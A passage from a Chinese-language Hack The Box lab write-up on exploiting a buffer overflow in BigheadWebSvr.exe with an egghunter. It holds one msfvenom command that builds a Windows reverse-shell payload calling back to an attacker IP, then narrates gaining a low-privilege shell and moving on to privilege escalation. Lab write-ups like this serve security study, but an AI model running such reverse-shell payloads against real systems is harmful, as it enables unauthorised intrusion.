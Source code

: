 ```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.128 LPORT=443 -f python -o dayushell.py
```

msfvenom 生成 shell，开始写 EXP

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtcLAtG3xYLuhc6QqZQIicm8ratArV0SbDwG0HSHSMfvgsSxBvTcPAAgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtTThhAtzgAFjK2lPdqj9OhFvUIaIpUL9q5T6kp9f0ibg8qXc2V0NEnEg/640?wx_fmt=png)

可以看到编写完了 EXP... 测试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtibcsDSAiaI9kkSdz31AOTPuf1KYPG0POdjrPkx0MC3IhccAAUclrI1UQ/640?wx_fmt=png)

没报错，运行中... 执行看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBt0eVTY6jA2MJWTpCcLVcdg4fNRe2f1lhv1dCiaMXp4zgXa6uDepaFjJg/640?wx_fmt=png)

回看 EXP 应该是没问题的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtCN21ZAicQfZpRTaicb9w8Z3OKuGwTY7iaqNMCFao4W0S4d3cAZRJKISicg/640?wx_fmt=png)

由于这是 head 偏移量溢出，而这里的头部信息太多了，需要微调，删除这些信息进行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBt7yrGxEV3e8jYskic4N7aqDMHzNvxLcOORK3pyJXZYmhxBT7mT4KFtxg/640?wx_fmt=png)

执行后还是报错了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtpvrViamJVQcvBb5ubHWxwcKZpzNVicciczJo0vGibjrGCVG6nHun9aYI4Q/640?wx_fmt=png)

当 egghunter 扫描内存时，CPU 使用率会在几秒钟内达到 100％..

这里等大概 10 多秒就能成功提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtsP4BnTx7PfWxkZmzxJoTdw8GFKDqRhas4rhbwKp6kb5rlibmZKicEYyQ/640?wx_fmt=png)

这里只需要将 EXP 里 IP 和端口修改成靶机即可相同提权...

这里遇到了坑，搞得我反反复复检查 EXP 至少几十遍，来来回回分析 BigheadWebSvr.exe 几十遍... 花了 2 天多的时间... 硬是没在靶机上提权成功...

原因找到了... 我 EXP 是没问题的... 是因为当 EXP 执行后，BigheadWebSvr.exe 服务会吃 windows server 2008 系统 CPU 到 %100，靶机就会延迟性很高，最近 HTB 也 windows 有点问题，估计是数据包传输的问题，延迟了几十分钟...

我怎么过的？

我都差点放弃了，放着继续尝试的心态，执行了 EXP，然后放着吃饭带娃，等了两小时回来，发现成功提权了... 狗血！！

可以看到成功获得 nelson 低权用户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtGTqHuloK8uJbLopBE1OAA5htp31OqkKXvJ8z4gtLJDMeVibDktibIIlA/640?wx_fmt=png)

获得了 user 信息... 可这肯定不是用户标志... 继续提权..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtujD0EG4d0VxtRvubp8V4A7uicEM6k4wtfeP8dZ0Q5VNGVBmiaLajMfww/640?wx_fmt=png)

有了前面的坑，我直接利用 meterpreter 进行提权操作，不然万一关了，我还得等几小时...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMb2ltvicPtLEWnYbGLMDFBtbpLmSlnaEjM7qQibKDzY98coKMvcwvebFIY2w81uKKwjeiaQrbfgFSYg/640?wx_fmt=png)
